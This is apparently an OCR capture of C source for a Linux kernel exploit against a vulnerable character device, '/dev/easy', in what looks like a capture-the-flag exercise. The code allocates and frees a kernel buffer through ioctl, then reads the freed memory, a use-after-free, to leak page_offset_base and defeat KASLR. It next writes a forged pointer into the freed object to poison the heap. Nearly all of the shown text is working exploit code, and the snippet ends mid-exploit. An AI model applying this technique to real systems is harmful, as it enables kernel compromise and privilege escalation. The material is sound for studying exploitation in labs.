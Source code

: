 ```
voidqword_dump(char *desc, void *addr, int len)
{
uint64_t*buf64 =(uint64_t*) addr;
uint8_t*buf8 =(uint8_t*) addr;
if(desc !=NULL){
printf("[*] %s:\n", desc);
}
for(int i =0; i < len /8; i +=4){
printf("  %04x", i *8);
for(int j =0; j <4; j++){
            i + j < len /8?printf(" 0x%016lx", buf64[i + j]):printf("                   ");
}
printf("   ");
for(int j =0; j <32&& j + i *8< len; j++){
printf("%c",isprint(buf8[i *8+ j])? buf8[i *8+ j]:'.');
}
puts("");
}
}

voidalloc_buf(int fd, int size)
{
printf("[+] kmalloc %d\n", size);
    ioctl(fd,0x0, size);
}

voidfree_buf(int fd)
{
printf("[+] kfree\n");
    ioctl(fd,0x1,0);
}

voidread_buf(int fd, size_t* buf, int size)
{
printf("[+] copy_to_user %d\n", size);
    read(fd, buf, size);
    qword_dump("read_buf", buf, size);
}

voidwrite_buf(int fd, size_t* buf, int size)
{
printf("[+] copy_from_user %d\n", size);
    qword_dump("write_buf", buf, size);
    write(fd, buf, size);
}

intmain()
{
size_t* buf =malloc(0x500);
int easy_fd;
    easy_fd = open("/dev/easy", O_RDWR);

    alloc_buf(easy_fd,0xa8);
    free_buf(easy_fd);

    read_buf(easy_fd, buf,0xa8);

size_t page_offset_base = buf[0]&0xFFFFFFFFF0000000;
printf("[*] page_offset_base %p\n", page_offset_base);

    buf[0]= page_offset_base +0x9d000-0x10;
    write_buf(easy_fd, buf,0x8);

```